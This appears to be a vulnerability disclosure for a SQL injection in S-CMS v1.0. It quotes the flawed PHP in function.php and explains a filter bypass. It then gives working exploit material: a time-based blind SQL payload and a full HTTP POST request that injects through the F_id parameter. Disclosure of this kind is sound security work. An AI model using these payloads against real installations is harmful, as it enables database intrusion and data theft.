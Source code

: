 ## Vulnerability summary

​	Vulnerability Name:  S-CMS v1.0 SQLi Vulnerability
​    Vulnerability finder：mntn@knownsec.com
​    Product Home：https://www.s-cms.cn/download.html
​    Software link： https://cdn.shanling.top/file/4.edu.php.zip
​    Version: v 1.0

## Details

Error is in file: 4.edu.php\conn\function.php

Code：

```php
case "form_addmenu":

$sql="select * from ".TABLE."menu where U_sub=0 order by U_order desc limit 1";
$result = mysqli_query($conn, $sql);
$row = mysqli_fetch_assoc($result);
if(mysqli_num_rows($result) > 0) {
$U_order=$row["U_order"];
}
$sql="select * from ".TABLE."form where F_id=".$_GET["F_id"];
$result = mysqli_query($conn, $sql);
$row = mysqli_fetch_assoc($result);
if(mysqli_num_rows($result) > 0) {
$F_title=$row["F_title"];
$F_entitle=$row["F_entitle"];
}
mysqli_query($conn,"insert into ".TABLE."menu(U_title,U_entitle,U_order,U_sub,U_ico,U_type,U_typeid) values('".$F_title."','".$F_entitle."',".($U_order+1).",0,'bars','form',".$_REQUEST["F_id"].")");
echo "success|æ·»å æå!";
lg("æ°å¢è¡¨åå°ä¸»èåï¼IDï¼".$_GET["F_id"]."ï¼");
die();
break;
```

`case: "form_addmenu"`is composed of `action` and `type`, and is executed by switch...case. Because of the protection, `spaces, -, *` are replaced with `_`, so use parentheses to bypass the space filter.

Insert injection in 16 lines, the accepted parameters are passed in through REQUEST, and the select statement in line 9 is passed in by GET, so first use the Post method to pass the parameters, not to control the select statement, the resulting payload is As mentioned above.

Query data by time blind：

```sql
(select(if(length(database())=8,sleep(5),1))))#
```
payload：

```
POST /4.edu.php/admin/ajax.php?action=addmenu&type=form HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Connection: close
Referer: http://localhost/4.edu.php/admin/ajax.php?action=addmenu&type=form
Cookie: authx=; count_all=0; userx=; passx=; add=%E4%B8%AD%E5%9B%BD; user=admin; pass=7b19569b9317927e14152e312767a351; A_type=1; auth=1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1; newsauth=all; productauth=all; textauth=all; formauth=all; bbsauth=all; lang=1ccd6812fc6526259c27c108a3a932225069539c%7Een; PHPSESSID=va94ir8ganf5t19mccv8oqqmu1; Hm_lvt_b60316de6009d5654de7312f772162be=1570675175; Hm_lpvt_b60316de6009d5654de7312f772162be=1570675490
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 127.0.0.2

F_id=(select(version())))#
```


The last closed SQL statement is as follows：

![](S-CMS-sql.png)

Of course, because it is REQUEST, there is no problem with GET (remember code#)：

![](S-CMS-sql_1.png)

![](S-CMS-sql_2.png)
